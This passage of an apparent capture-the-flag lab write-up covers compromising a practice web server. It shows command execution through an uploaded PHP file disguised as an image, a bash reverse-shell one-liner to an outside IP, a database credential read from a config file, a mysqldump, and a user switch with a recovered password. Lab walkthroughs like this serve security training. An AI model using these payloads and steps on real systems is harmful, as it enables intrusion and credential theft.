 **Command Execution:**
```
http://10.129.49.31/images/uploads/script.php.png?cmd=id
```

<img width="960" height="235" alt="image" src="https://github.com/user-attachments/assets/a9f59cc8-020a-408c-8134-1ff70dc86034" />


**Reverse Shell Payload:**
```bash
bash -c 'bash -i >& /dev/tcp/10.10.14.134/9001 0>&1'
```

<img width="960" height="235" alt="image" src="https://github.com/user-attachments/assets/b770fe49-3696-4bf0-8489-12f08c6ab0a6" />


**Shell Obtained:**
- User: `www-data`
- Access Level: Web application context

<img width="768" height="722" alt="image" src="https://github.com/user-attachments/assets/123f6e6b-9ccd-457d-8cda-2690be869174" />


## Post-Exploitation

### Database Credential Discovery

**Location:** `/var/www/Magic/db.php5`

**Credentials Found:**
```php
private static $dbName = 'Magic';
private static $dbHost = 'localhost';
private static $dbUsername = 'theseus';
private static $dbUserPassword = 'iamkingtheseus';
```

<img width="777" height="723" alt="image" src="https://github.com/user-attachments/assets/657b89e8-a787-4818-a95b-7065e57105a9" />


### Database Enumeration

**MySQL Dump:**
```bash
mysqldump -u theseus -p Magic
```

<img width="627" height="76" alt="image" src="https://github.com/user-attachments/assets/a283e37e-a7ad-4468-b9ad-d6fc57e0c215" />

**Additional Credentials Discovered:**
- Username: `admin`
- Password: `Th3s3usW4sK1ng`

<img width="487" height="142" alt="image" src="https://github.com/user-attachments/assets/b61690d9-6149-4b28-94cf-7eecad76b074" />

switch the user to theseus using the password Th3s3usW4sK1ng
